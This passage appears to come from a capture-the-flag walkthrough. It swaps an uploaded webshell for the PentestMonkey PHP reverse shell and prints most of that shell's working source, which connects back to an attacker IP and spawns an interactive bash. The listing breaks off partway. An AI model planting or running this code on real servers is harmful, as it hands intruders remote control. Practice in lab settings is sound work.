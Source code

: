 While we're at it, we should change `shell.php` from a webshell into a reverse
shell since the server will delete the file periodically. Just replace the code
in `shell.php` with the `PHP PentestMonkey` reverse shell on [revshells.com](https://www.revshells.com/){:target="_blank"}{:rel="noopener noreferrer"}. It
should look something like this

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.203'; // YOUR IP HERE
$port = 4444; // SAME PORT AS THE LISTENER
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/bash -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
```